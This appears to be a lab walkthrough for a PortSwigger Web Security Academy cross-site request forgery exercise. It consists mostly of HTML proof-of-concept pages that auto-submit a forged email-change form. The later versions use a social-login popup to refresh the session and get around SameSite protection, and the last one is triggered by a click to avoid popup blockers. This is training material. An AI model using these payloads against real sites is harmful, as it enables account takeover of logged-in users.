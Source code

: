 ### Basic CSRF Attack PoC:

```html
<script>history.pushState('', '', '/')</script>
<form action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email" method="POST">
    <input type="hidden" name="email" value="foo@bar.com" />
    <input type="submit" value="Submit request" />
</form>
<script>
    document.forms[0].submit();
</script>
```

> ⚠️ This works only **if the user is logged in and the session is fresh** (less than 2 mins).

---

## Bypass SameSite and Force Session Refresh

### Exploit with OAuth Refresh:

```html
<form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="pwned@web-security-academy.net">
</form>
<script>
    window.open('https://YOUR-LAB-ID.web-security-academy.net/social-login');
    setTimeout(changeEmail, 5000);

    function changeEmail() {
        document.forms[0].submit();
    }
</script>
```

> ☝️ Popup blockers may block the OAuth window if not triggered by user interaction.

---

## Final Version: Trigger via Click to Bypass Popup Blockers

```html
<form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="pwned@portswigger.net">
</form>
<p>Click anywhere on the page</p>
<script>
    window.onclick = () => {
        window.open('https://YOUR-LAB-ID.web-security-academy.net/social-login');
        setTimeout(changeEmail, 5000);
    };

    function changeEmail() {
        document.forms[0].submit();
    }
</script>
```

